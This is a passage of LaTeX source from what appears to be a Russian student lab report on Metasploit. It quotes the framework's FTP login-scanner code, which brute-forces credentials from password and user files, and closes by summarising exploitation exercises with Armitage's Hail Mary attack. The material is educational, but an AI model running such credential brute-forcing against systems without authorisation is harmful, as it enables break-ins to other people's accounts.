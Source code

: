 \documentclass[10pt,a4paper]{report}
\begin{document}
		\begin{enumerate}
			\item Вызывается метод run\_host, который производит сканирование.
			Создаются экземпляры учетных данных и сканера.
			\begin{lstlisting}
cred_collection = Metasploit::Framework::CredentialCollection.new(
blank_passwords: datastore['BLANK_PASSWORDS'],
pass_file: datastore['PASS_FILE'],
password: datastore['PASSWORD'],
user_file: datastore['USER_FILE'],
userpass_file: datastore['USERPASS_FILE'],
username: datastore['USERNAME'],
user_as_pass: datastore['USER_AS_PASS'],
prepended_creds: anonymous_creds
)
cred_collection = prepend_db_passwords(cred_collection)
scanner = Metasploit::Framework::LoginScanner::FTP.new(
host: ip,
port: rport,
proxies: datastore['PROXIES'],
cred_details: cred_collection,
stop_on_success: datastore['STOP_ON_SUCCESS'],
bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
max_send_size: datastore['TCP::max_send_size'],
send_delay: datastore['TCP::send_delay'],
connection_timeout: 30,
framework: framework,
framework_module: self,
ssl: datastore['SSL'],
ssl_version: datastore['SSLVersion'],
ssl_verify_mode: datastore['SSLVerifyMode'],
ssl_cipher: datastore['SSLCipher'],
local_port: datastore['CPORT'],
local_host: datastore['CHOST']
)
			\end{lstlisting}
			
			\item Производится сканирование:
			\begin{lstlisting}
scanner.scan! do |result|
credential_data = result.to_h
credential_data.merge!(
module_fullname: self.fullname,
workspace_id: myworkspace_id
)
if result.success?
credential_core = create_credential(credential_data)
credential_data[:core] = credential_core
create_credential_login(credential_data)
print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
else
invalidate_login(credential_data)
vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} 
(#{result.status}: #{result.proof})"
end
			\end{lstlisting}
		\end{enumerate}
	
	\section{Выводы}
	В ходе выполнения лабораторной работы было произведено ознакомление с инструментом для осуществления тестов на проникновение Metasploit. 
	Были изучены и применены различные типы атак на целевую машину с использованием известных уязвимотсей из базы Metasploit.
	Была рассмотрена графическая оболочка Armitage и применена атака Hail Mary для нахождения и эксплуатации всех найденных уязвимостей.
	Также были  раасмотрены некоторые скрипты для использования известных уязвимостей.
\end{document}
